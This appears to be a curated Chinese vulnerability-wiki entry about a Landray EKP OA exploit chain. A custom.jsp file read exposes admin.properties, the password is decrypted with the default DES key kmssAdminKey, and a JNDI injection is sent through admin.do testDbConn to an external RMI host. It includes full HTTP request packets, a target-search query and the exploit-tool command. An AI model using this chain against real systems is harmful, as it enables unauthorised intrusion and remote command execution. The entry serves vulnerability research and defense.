




# 蓝凌EKP custom.jsp读取密码→admin.do testDbConn JNDI链

## 条目说明

- 对象与具体问题：蓝凌EKP；custom.jsp读取密码→admin.do testDbConn JNDI链
- 版本、配置及部署条件：无版本；默认JDK1.7说法过泛，具体更新号及远程加载策略关键
- 认证与权限前提：前段文件读取，后段需要管理员会话
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 同凌OA组合链，本文请求JSON完整可以修复转码错误
- 默认密钥kmssAdminKey实际DES键截取规则未解释，应关联DES篇
- DNS回调不能独立证明命令执行；JNDI RMI/LDAP依赖与出网需显式记录
- 不能将后台JNDI风险误标纯前台RCE

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

### 漏洞影响

```
蓝凌OA
```

### 网络测绘

```
app="Landray-OA系统"
```

### 漏洞复现

利用 **蓝凌OA custom.jsp 任意文件读取漏洞** 读取配置文件

```plain
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```http
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

> 请求长度说明：原资料 Content-Length 为 60；静态长度已移除，应由客户端根据最终请求体的字节数生成。




获取password后，使用 DES方法 解密，默认密钥为 **kmssAdminKey**




访问后台地址使用解密的密码登录

```plain
http://xxx.xxx.xxx.xxx/admin.do
```




使用工具执行命令

https://github.com/welk1n/JNDI-Injection-Exploit

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```http
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```

> 请求长度说明：原资料 Content-Length 为 70；静态长度已移除，应由客户端根据最终请求体的字节数生成。




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
